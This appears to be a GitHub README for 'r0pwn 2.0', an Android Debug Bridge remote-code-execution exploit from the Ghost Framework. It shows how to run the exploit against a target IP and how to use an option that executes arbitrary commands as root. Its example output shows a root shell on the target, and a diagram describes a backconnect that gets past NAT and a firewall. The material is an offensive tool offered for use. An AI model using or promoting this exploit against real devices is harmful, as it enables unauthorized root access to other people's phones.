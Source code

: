 # r0pwn 2.0

![r0pwn](https://user-images.githubusercontent.com/54115104/83108136-04a44800-a0c8-11ea-8cf8-4acf766ca928.png)

*hmm... r0pwn means robot pwn?*

    Android Debug Bridge RCE exploit.

## Table of contents

* [Official Release](#release)
* [Dependencies](#dependencies)
* [Exploiting](#exploiting)
* [Code Substitution](#substitution)
* [Exploit Algorithm](#algorithm)
* [Exploit Credits](#credits)

## Release

This is a repo of an exploit, but this exploit is a part of the Ghost Framework developed by @entynetproject.

[Ghost Framework](https://github.com/entynetproject/ghost)

## Dependencies

* `android-platform-tools`

## Exploiting

```shell
python3 exploit.py <target>
```

**NOTE:** Target should have wireless debugging turned on

```shell
root@kali:~/r0pwn# python3 exploit.py 192.168.1.75

======================
r0pwn by Ivan Nikolsky
======================

Android Debug Bridge RCE exploit.

exploiting 192.168.1.75...
root@nevada:~# whoami
root
root@nevada:~#
```

## Substitution

```shell
root@kali:~/r0pwn# python3 exploit.py <target> -s <code>
```

**NOTE:** Angry substitution will not work without SUID/root!

```shell
root@kali:~/r0pwn# python3 exploit.py 192.168.1.75 -s whoami

======================
r0pwn by Ivan Nikolsky
======================

Android Debug Bridge RCE exploit.

exploiting 192.168.1.75...
substituting whoami...
executing whoami...
root
```

## Algorithm

```
                    backconnect (over ADB)
               +------------------------------+
               |                              |
attacker --- r0pwn --- NAT -+- Firewall -+- target
                            |            |
                            +------------+
                                bypass
```

## Credits

**Authors:**

* Ivan Nikolsky (@enty8080) - `research` and `development`.

**Special Thanks:**

* [PhoneSploit](https://github.com/metachar/PhoneSploit) - thanks for `inspiration`.
